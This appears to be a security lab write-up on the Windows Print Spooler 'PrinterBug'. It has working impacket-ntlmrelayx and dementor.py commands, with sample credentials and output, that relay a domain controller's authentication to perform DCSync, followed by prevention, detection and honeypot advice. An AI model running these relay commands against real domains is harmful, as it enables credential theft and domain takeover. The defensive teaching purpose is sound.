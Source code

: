 ## Description
The Print Spooler is an old service, enabled by default even in the latest Windows Desktop and Server versions. This service became a popular attack vector after the discovery of the "PrinterBug" by Lee Christensen in 2018. The functions `RpcRemoteFindFirstPrinterChangeNotification` and `RpcRemoteFindFirstPrinterChangeNotificationEx` can be exploited to make a remote machine connect to any reachable device, carrying authentication info in the form of a TGT. Microsoft deemed this bug a "by-design" issue and has not issued a fix.

### Impact
If a Domain Controller (DC) with the Print Spooler enabled is compromised, the attacker can:
- **Relay the connection to another DC** and perform DCSync if SMB Signing is disabled.
- **Force the DC to connect to a machine configured for Unconstrained Delegation (UD)**, caching the TGT in the UD server's memory, which tools like Rubeus and Mimikatz can capture.
- **Relay the connection to Active Directory Certificate Services**, allowing threat agents to obtain a certificate for the DC, usable for authenticating as the DC (e.g., DCSync).
- **Configure Resource-Based Kerberos Delegation** for the relayed machine, enabling abuse to authenticate as any Administrator on that machine.

## Attack Methodology
In this scenario, we'll relay the DC connection to another DC and perform DCSync, provided SMB Signing is off on Domain Controllers.

### Step-by-Step Attack Execution

1. **Configure NTLMRelayx** to forward connections to DC2 and attempt DCSync:
    ```bash
    impacket-ntlmrelayx -t dcsync://172.16.18.4 -smb2support
    ```
    Sample Output:
    ```
    Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
    [*] Protocol Client SMTP loaded..
    [*] Protocol Client LDAP loaded..
    ...
    [*] Servers started, waiting for connections
    ```

2. **Trigger the PrinterBug** using Dementor, with NTLMRelayx listening:
    ```bash
    python3 ./dementor.py 172.16.18.20 172.16.18.3 -u bob -d eagle.local -p Slavi123
    ```
    Sample Output:
    ```
    [*] connecting to 172.16.18.3
    [*] bound to spoolss
    [*] getting context handle...
    ...
    [-] exception RPRN SessionError: code: 0x6ab - RPC_S_INVALID_NET_ADDR - The network address is invalid.
    ```

3. **Check NTLMRelayx for DCSync Success** - Hashes should appear in the NTLMRelayx terminal.

## Prevention

- **Disable Print Spooler** on all non-printing servers, especially on Domain Controllers.
- **Registry Key Setting**: Use `RegisterSpoolerRemoteRpcEndPoint` to block remote requests:
  - Set to `1` to enable.
  - Set to `2` to disable remote access.

## Detection

Exploiting PrinterBug leaves traces of network connections to the DC, though these are too generic for reliable detection.

- **Log Correlation**: Track all logon attempts from core infrastructure servers by IP address. When NTLMRelayx performs DCSync, no event ID 4662 is generated, but there will be a successful logon event from the IP address of the attacking machine.

## Honeypot Strategy

Using the PrinterBug as a honeypot can alert on suspicious activity by:
- Blocking outbound connections on ports 139 and 445 from servers, which will alert blue teams on compromised reverse connections.
- **Considerations**: Ensure proper log monitoring and be prepared to respond quickly, especially if any new vulnerabilities allowing RCE without reverse connection arise.

---

**Note**: Implement honeypot measures only if the organization is mature enough to act promptly on alerts.
